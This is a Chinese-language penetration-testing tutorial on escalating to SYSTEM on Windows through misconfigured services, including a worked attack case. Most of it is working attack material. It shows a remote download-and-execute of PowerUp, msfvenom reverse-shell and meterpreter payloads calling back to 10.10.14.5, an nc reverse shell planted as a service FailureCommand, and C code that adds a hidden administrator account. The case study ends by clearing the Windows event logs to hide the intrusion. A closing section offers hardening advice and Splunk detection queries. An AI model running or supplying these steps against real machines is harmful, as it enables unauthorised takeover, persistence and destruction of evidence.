


## 引言

Windows服务权限配置错误是最常见的本地提权向量之一。低权限用户对服务文件、注册表或服务自身拥有不当权限时，可劫持以SYSTEM运行的服务完成提权。本文系统梳理五种技术：PowerUp自动化检测、Unquoted Service Path、可写二进制替换、注册表权限修改、SC sdshow分析以及服务重启技巧。

---

## 1. PowerUp.ps1 快速检测

PowerUp.ps1是PowerSploit框架的提权模块，`Invoke-AllChecks`遍历所有已注册服务，检查可写路径、可写二进制、注册表ACL及服务权限缺陷。

```powershell
powershell -ExecutionPolicy Bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
# 远程加载
iex (New-Object Net.WebClient).DownloadString('http://<ip>/PowerUp.ps1')
Invoke-AllChecks
```

核心检查项与典型漏洞：

| 检查项 | 说明 | 典型表现 |
|--------|------|---------|
| `Get-ServiceUnquoted` | 路径含空格未加引号 | `C:\Program Files\App\svc.exe` |
| `Get-ModifiableServiceFile` | 服务二进制可写 | `BUILTIN\Users` 有Write/FullControl |
| `Get-ModifiableService` | 服务ACL缺陷 | 低权限用户可改binPath |
| `Get-ServiceRegistryPermission` | 注册表项ACL宽松 | Services\<svc>可写 |

每个漏洞都会附带`AbuseFunction`，直接复制执行即可利用。

---

## 2. Unquoted Service Path（未引用路径）

当服务路径含空格但未用双引号时，SCM按以下顺序尝试定位可执行文件。以路径`C:\Program Files\Vuln App\bin\service.exe`为例：

1. `C:\Program.exe`
2. `C:\Program Files\Vuln.exe`
3. `C:\Program Files\Vuln App\bin\service.exe` ← 实际目标

若攻击者对任一中间路径有写入权限，植入恶意exe后服务重启即被SCM执行。

手工检测命令：

```cmd
wmic service get name,pathname,startmode | findstr /i auto | findstr /i /v "C:\Windows"
```

```powershell
Get-WmiObject win32_service | Where-Object { $_.PathName -notlike '"*' -and $_.PathName -like '* *' } | Select-Object Name, PathName, StartMode
```

**利用示例**：服务`VulnSvc`路径为`C:\Program Files\Vuln App\bin\app.exe`。

```cmd
icacls "C:\Program Files\Vuln App"
```

若含`BUILTIN\Users:(M)`即存在写入权限。生成载荷：

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o Vuln.exe
```

将`Vuln.exe`复制到父目录，SCM首次匹配到`Vuln.exe`即停止搜索并以SYSTEM执行。

---

## 3. 可写服务二进制文件

检测当前用户对服务二进制文件的写入权限：

```powershell
Get-ModifiableServiceFile
# 手工检查
Get-WmiObject win32_service | Where-Object { $_.StartMode -eq 'Auto' } | ForEach-Object {
    $path = ($_.PathName -replace '^"|"$','')
    if (Test-Path $path) {
        (Get-Acl $path).Access | Where-Object {
            $_.FileSystemRights -match 'FullControl|Modify|Write' -and
            $_.IdentityReference -match 'Users|Everyone|Authenticated Users'
        } | % { Write-Host "[!] $path -> $_" }
    }
}
```

利用流程：备份原文件 → 覆盖为恶意文件 → 重启服务获取SYSTEM → 恢复原文件。

```cmd
copy "C:\Program Files\Target\svc.exe" "C:\Program Files\Target\svc.exe.bak"
copy /y malicious.exe "C:\Program Files\Target\svc.exe"
```

自定义载荷示例：

```c
#include <windows.h>
#include <stdlib.h>
int main() {
    system("cmd.exe /c net user agent P@ssw0rd /add");
    system("cmd.exe /c net localgroup administrators agent /add");
    WinExec("C:\\Program Files\\Target\\svc.exe.bak", SW_HIDE);
    return 0;
}
```

---

## 4. 服务注册表权限修改

服务配置存储于`HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>`。若普通用户拥有`SetValue`或`FullControl`权限，可修改关键值实现提权。

### 检测

```powershell
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\VulnSvc" | Format-List
```

### 修改 ImagePath

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\VulnSvc" `
    -Name "ImagePath" -Value "C:\temp\payload.exe"
# 或
sc config VulnSvc binPath= "C:\temp\payload.exe"
```

### 利用 FailureCommand

服务失败恢复机制：当服务连续失败达到阈值时执行预设命令。

```powershell
sc failure VulnSvc reset= 0 actions= restart/60000/restart/60000/run/60000
sc failure VulnSvc command= "C:\temp\nc.exe 10.10.14.5 4444 -e cmd.exe"
```

也可直接修改注册表：

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v FailureCommand /t REG_SZ /d "cmd.exe /c C:\temp\shell.bat" /f
```

修改后重启服务或诱发服务崩溃即可触发载荷。

---

## 5. SC sdshow —— 安全描述符分析

`sc sdshow`查看服务SDDL安全描述符，精确判断各主体对服务的权限。

```cmd
sc sdshow <ServiceName>
```

SDDL结构：`D:(A;;[权限位];;;[SID])`
- **A**=Allow, **D**=Deny
- 常用SID：`SY`=LocalSystem, `BA`=Administrators, `BU`=Users, `WD`=Everyone, `AU`=Authenticated Users

常见高危SDDL模式：

| SDDL片段 | 含义 |
|----------|------|
| `(A;;KA;;;WD)` | Everyone完全控制 |
| `(A;;CCDCLCSWRP;;;WD)` | Everyone可改配置并启停 |
| `(A;;RPWP;;;BU)` | Users可读写服务属性 |
| `(A;;CCLCSWRPLORC;;;WD)` | Everyone可启动/停止/读取 |

示例解读：

```cmd
sc sdshow VulnSvc
D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWRPLORC;;;WD)
```

SY完全控制、BA完全控制、**WD拥有StartService+StopService+ReadControl**——任何人可启停该服务。

### 攻击决策流程图



---

## 6. 服务重启技巧

多数利用需重启服务生效。获取状态：

```powershell
Get-Service VulnSvc | Select-Object Name, StartType, Status
```

常规启停：

```powershell
Stop-Service VulnSvc -Force       # 或 sc stop VulnSvc
Start-Service VulnSvc             # 或 sc start VulnSvc
```

当服务无法停止时的策略：

- **诱导崩溃**：若可修改`FailureCommand`，让服务崩溃后自动执行载荷
- **利用依赖关系**：`sc enumdepend VulnSvc` 寻找可被停止的依赖项
- **等待重启**：载荷植入后等待主机下次重启（Automatic类型自动启动）
- **强制重启**：`shutdown /r /t 0`（最可靠但影响业务）

辅助函数封装：

```powershell
function Invoke-ServiceRestart {
    param([string]$ServiceName, [string]$NewBinPath = $null)
    Write-Host "[*] Status: $((Get-Service $ServiceName).Status)"
    if ($NewBinPath) {
        sc.exe config $ServiceName binPath= $NewBinPath | Out-Null
    }
    try {
        sc.exe stop $ServiceName; Start-Sleep 3
        sc.exe start $ServiceName; Start-Sleep 3
        Write-Host "[+] New Status: $((Get-Service $ServiceName).Status)"
    } catch { Write-Host "[-] Failed: $_" }
}
```

---

## 7. 综合攻击流程



---

## 8. 实战案例

**场景**：域用户`contoso\jdoe`凭据，WinRM登录`SRV-WEB01`。

```powershell
Invoke-AllChecks | Out-File C:\Users\jdoe\Documents\result.txt
# 输出: AudioEndpointBuilder, Path: C:\Program Files\AudioSoft\audioendpoint.exe
# ModifiableFilePermissions: {BUILTIN\Users, Write}, StartName: LocalSystem
```

验证并部署：

```cmd
icacls "C:\Program Files\AudioSoft\audioendpoint.exe"
:: BUILTIN\Users:(W)
copy "C:\Program Files\AudioSoft\audioendpoint.exe" "...\audioendpoint.exe.bak"
copy /y payload.exe "C:\Program Files\AudioSoft\audioendpoint.exe"
```

其中payload由`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe`生成。触发并清理：

```powershell
Restart-Service AudioEndpointBuilder -Force  # MSF handler收到SYSTEM会话
copy /y "...\audioendpoint.exe.bak" "...\audioendpoint.exe"
Restart-Service AudioEndpointBuilder -Force
Remove-Item "...\audioendpoint.exe.bak"
Clear-EventLog -LogName Application,Security,System
```

---

## 9. 防御建议

**系统管理员**：
1. 含空格的服务路径统一用双引号包裹
2. 定期审计服务二进制目录ACL，移除Users/Everyone写入权限
3. GPO限制对`SYSTEM\CurrentControlSet\Services`的非管理员访问
4. `sc sdshow`审计关键服务SDDL，确保CHANGE_CONFIG仅授予管理员
5. 第三方软件安装后审计其服务权限配置

**SIEM监控**：

```
# Splunk: sc config 修改 binPath
index=windows EventCode=4688 Process_Command_Line="*sc*config*binPath*"
| table _time, host, user, Process_Command_Line

# Splunk: 注册表 ImagePath 修改
index=windows EventCode=4657 Object_Name="*\\Services\\*" Object_Value_Name="ImagePath"
| table _time, host, SubjectUserName, Old_Value, New_Value
```

**审计工具**：AccessChk、Seatbelt、SharpUp。

---

## 10. 总结

| 漏洞类型 | 利用难度 | 前置条件 | 提权至 |
|----------|---------|----------|-------|
| Unquoted Service Path | 低 | 路径间隙目录可写 | SYSTEM |
| Writable Service Binary | 低 | 可写服务文件 | SYSTEM |
| Registry ImagePath 可写 | 中 | 注册表项ACL宽松 | SYSTEM |
| FailureCommand 可写 | 中 | 注册表ACL宽松+服务可崩溃 | SYSTEM |
| SDDL 服务ACL缺陷 | 中-高 | SCM权限划分不严谨 | SYSTEM |

理解底层原理（SDDL语义、SCM路径解析顺序、注册表服务配置结构）是区分脚本小子与专业渗透测试工程师的关键。

---

## 免责声明

本文所述技术仅用于安全研究、授权渗透测试及安全防御体系建设。任何未经授权的安全测试均为违法行为。在安全测试中请遵守《中华人民共和国网络安全法》及相关法律法规，务必获得被测试方明确的书面授权。

**Always Get Written Authorization. Practice Responsibly.**

**参考文献**

- [PowerSploit - PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- [Microsoft - Service Security and Access Rights](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights)
- [Microsoft - Security Descriptor String Format](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format)
- [MITRE ATT&CK - T1574.011 Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)
- [MITRE ATT&CK - T1574.010 Service File Permissions Weakness](https://attack.mitre.org/techniques/T1574/010/)
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings)
